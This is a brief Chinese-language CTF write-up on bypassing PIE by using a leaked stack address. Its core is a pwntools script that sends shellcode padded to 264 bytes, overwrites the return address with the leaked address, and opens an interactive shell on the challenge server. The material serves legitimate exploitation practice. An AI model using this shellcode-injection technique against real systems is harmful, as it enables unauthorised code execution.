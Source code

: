 ### 泄露栈地址绕过 PIE

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/681499f658cb8da5c8d6f14f.png)

没开 NX 但是开了 PIE

![](https://pic1.imgdb.cn/item/68149a2358cb8da5c8d6f220.png)

反编译程序发现开始就会给我们栈初始地址

![](https://pic1.imgdb.cn/item/68149a3958cb8da5c8d6f278.png)

看看栈大小

![](https://pic1.imgdb.cn/item/68149bc758cb8da5c8d6f2eb.png)

上脚本

```python
from pwn import *

p = remote("challenge.qsnctf.com",31587)
context(arch = 'amd64', os = 'linux')
shellcode = asm(shellcraft.sh())

# 先接收地址
v4 = int(p.recv(14),16)

# 填充垃圾数据到 r 处，返回地址为栈初始地址
payload = shellcode.ljust(264, b'a') + p64(v4)

p.sendline(payload)
p.interactive()
```

